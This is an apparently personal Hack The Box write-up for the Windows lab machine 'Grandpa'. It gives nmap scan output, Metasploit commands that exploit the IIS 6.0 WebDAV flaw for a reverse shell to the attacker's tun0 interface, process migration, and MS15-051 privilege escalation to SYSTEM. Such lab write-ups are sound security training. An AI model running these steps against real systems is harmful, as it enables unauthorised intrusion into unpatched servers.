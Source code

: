 # Hackthebox - Grandpa

- Windows

![Grandpa](../.res/HTB-Grandpa.png)

- [Box on HTB](https://app.hackthebox.com/machines/13)

## Nmap

```bash
┌──(kali㉿kali)-[~/Documents/grandpa]
└─$ nmap -Pn -sV -sC -p- 10.10.10.14
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 14:03 EDT
Nmap scan report for 10.10.10.14
Host is up (0.030s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Fri, 14 Oct 2022 18:05:17 GMT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.10 seconds
```

- As for granny this box has iis 6.0.
- Let's run the nmap scan with the vuln script

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV --script=vuln 10.10.10.14
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 14:11 EDT
Nmap scan report for 10.10.10.14
Host is up (0.027s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-enum: 
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
|_http-server-header: Microsoft-IIS/6.0
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.91 seconds
```

### Webdav

- Let's use the same metasploit module we used in granny `use exploit/windows/iis/iis_webdav_scstoragepathfromurl`
- `set RHOSTS 10.10.10.14`
- `set LHOST tun0` and `run`
- We get a shell let's migrate as getuid returns an access denied
- `ps` we choose a process running as `NT AUTHORITY\NETWORK SERVICE` and then we use `migrate` with pid `migrate 1608`
- getuid now returns something to us

## Privesc

- Let's try local exploit suggester first `run multi/recon/local_exploit_suggester`
- As for granny we do not get any result.
- Let's check systeminfo and run wes on it

```dos
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 29 Minutes, 23 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 742 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,279 MB
Page File: In Use:         191 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

- We get also a lot of results with wes
- Let's try CVE-2014-4076 (MS14-070)
- Here as well our shell dies
- It does not seem to be vulnerable to CVE-2014-4113 according to wes
- Let's try CVE-2015-1701 (MS15-051)
- `use exploit/windows/local/ms15_051_client_copy_image`
- `set SESSION 3`
- `set LHOST tun0`
- `set LPORT 4445`
- `run`
- We get a system shell and we can grab the flags  
![system](../.res/2022-10-14-15-08-02.png)
